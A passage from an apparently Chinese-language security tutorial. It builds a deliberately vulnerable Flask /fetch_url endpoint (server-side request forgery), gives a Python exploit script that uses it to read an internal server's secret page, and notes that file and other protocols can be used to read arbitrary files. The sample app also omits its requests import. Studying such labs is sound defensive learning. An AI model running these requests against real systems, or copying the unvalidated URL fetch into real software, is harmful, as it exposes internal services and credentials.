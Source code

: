 ```plain
from flask import Flask, request, jsonify

app = Flask(__name__)

@app.route('/fetch_url', methods=['POST'])
def fetch_url():
    url = request.form.get('url')
    try:
        response = requests.get(url)
        return jsonify({'status': 'success', 'content': response.text})
    except Exception as e:
        return jsonify({'status': 'error', 'message': str(e)})

if __name__ == '__main__':
    app.run(debug=True)
```

1.  运行应用：`python app.py`
2.  此时，应用程序应该在`http://127.0.0.1:5000/`运行，并提供一个`/fetch_url`端点，用于接收 URL 参数。

现在，我们来模拟利用这个 SSRF 漏洞访问内部 Web 服务器。假设内部 Web 服务器的 IP 地址为`192.168.1.100`，我们想要访问的敏感页面路径为`/secret_page`。

1.  安装`requests`库：`pip install requests`
2.  创建一个名为`exploit.py`的文件，然后添加以下代码：

```plain
import requests

def exploit_ssrf(url):
    target_url = "http://192.168.1.100:80/secret_page"
    # 这里我们使用HTTP POST请求，将目标URL作为表单数据发送
    payload = {'url': target_url}
    response = requests.post(url, data=payload)

    if response.status_code == 200:
        print("Success: Retrieved content from internal web server")
        print(response.text)
    else:
        print("Failed: Unable to retrieve content from internal web server")

if __name__ == "__main__":
    # 替换为你在步骤 3 中找到的 SSRF 漏洞 URL
    ssrf_url = "http://127.0.0.1:5000/fetch_url"
    exploit_ssrf(ssrf_url)
```

1.  运行脚本：`python exploit.py`
2.  如果一切正常，你应该能够看到从内部 Web 服务器获取的敏感页面内容。

通过 SSRF 进行文件读取：

SSRF 可以利用不同的协议（如`file`、`ldap`、`zlib`、`phar`、`tar`、`rar`用于 PHP，`jar` 用于 Java）来读取任意文件。这可以用于代码审计、访问配置文件或检索密码。
